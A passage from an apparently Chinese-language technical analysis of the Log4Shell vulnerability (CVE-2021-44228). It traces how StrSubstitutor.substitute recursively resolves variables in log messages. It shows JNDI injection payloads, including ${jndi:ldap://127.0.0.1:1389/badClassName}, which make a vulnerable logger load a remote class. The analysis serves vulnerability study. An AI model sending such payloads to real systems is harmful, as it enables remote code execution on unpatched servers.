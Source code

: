 

跟入`StrSubstitutor.substitute`方法，存在递归，逻辑较长,主要作用是递归处理日志输入，转为对应的输出

```java
private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length,
                       List<String> priorVariables) {
    ...
    substitute(event, bufName, 0, bufName.length());
    ...
    String varValue = resolveVariable(event, varName, buf, startPos, endPos);
    ...
    int change = substitute(event, buf, startPos, varLen, priorVariables);
}
```

在这里要说一下，触发漏洞的必要条件其实就是此章节最上头写的那些:

```java
Logger logger = LogManager.getLogger();
logger.error("error message: {}",${jndi:rmi://<ip>/<ref>});
```

通常程序员会写下这样的日志代码，去记录一些错误日志，当攻击方输入恶意payload后，将会使变量进行更改，类似 `logger.error("error_message:${jndi:ldap://127.0.0.1:1389/badClassName}");`

而`StrSubstitutor.substitute`的递归将使`jndi:ldap://127.0.0.1:1389/badClassName`进入`resolveVariable` 方法	

![img](../assets/2021-12-12-CVE-2021-44228-Apache%20Log4jshell%E7%9A%84%E6%B7%B1%E5%85%A5%E6%80%9D%E8%80%83/0118.png)
